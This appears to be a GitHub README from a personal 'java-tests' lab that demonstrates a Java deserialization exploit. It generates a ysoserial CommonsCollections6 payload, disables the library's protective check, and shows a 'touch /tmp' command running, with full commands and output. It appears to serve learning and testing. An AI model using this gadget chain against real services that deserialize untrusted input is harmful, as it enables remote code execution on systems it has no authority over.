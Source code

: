# java-tests

<!-- TOC -->

-   [java-tests](#java-tests)
    -   [Deserialization Exploit](#deserialization-exploit)
        -   [Create payload](#create-payload)
        -   [Get Commons Collections](#get-commons-collections)
        -   [Abuse deserialization](#abuse-deserialization)

<!-- /TOC -->

## Deserialization Exploit

Successful Deserialization exploit using the ysoserial CommonsCollection6 payload...

### Create payload

```bash
/app# payload="CommonsCollections6"
/app# filename="data/${payload}.bin"
/app# command="touch /tmp/$payload"
/app# java -jar ysoserial.jar $payload "$command"> "$filename"
```

### Get Commons Collections

-   Download Commons Collections 3.S from the Apache Commons Collections [Download Page]](https://commons.apache.org/proper/commons-collections/download_collections.cgi)
-   Copy main jar file commons-collections-3.2.2.jar to local dir

### Abuse deserialization

```bash
/ap# export CLASSPATH=.:commons-collections-3.2.2.jar

/app# java DeserializeDemo data/CommonsCollections6.bin
Deserializing data/CommonsCollections6.bin
Exception in thread "main" java.lang.UnsupportedOperationException: Serialization support for org.apache.commons.collections.functors.InvokerTransformer is disabled for security reasons. To enable it set system property 'org.apache.commons.collections.enableUnsafeSerialization' to 'true', but you must ensure that your application does not de-serialize objects from untrusted sources.
        at org.apache.commons.collections.functors.FunctorUtils.checkUnsafeSerialization(FunctorUtils.java:183)
        at org.apache.commons.collections.functors.InvokerTransformer.readObject(InvokerTransformer.java:164)
[...]

root@dfe5efe5da84:/app# java -Dorg.apache.commons.collections.enableUnsafeSerialization=true DeserializeDemo data/CommonsCollections6.bin
Deserializing data/CommonsCollections6.bin
Exception in thread "main" java.lang.ClassCastException: java.util.HashSet cannot be cast to Employee
        at DeserializeDemo.main(DeserializeDemo.java:11)


/app# ls /tmp
CommonsCollections6
```
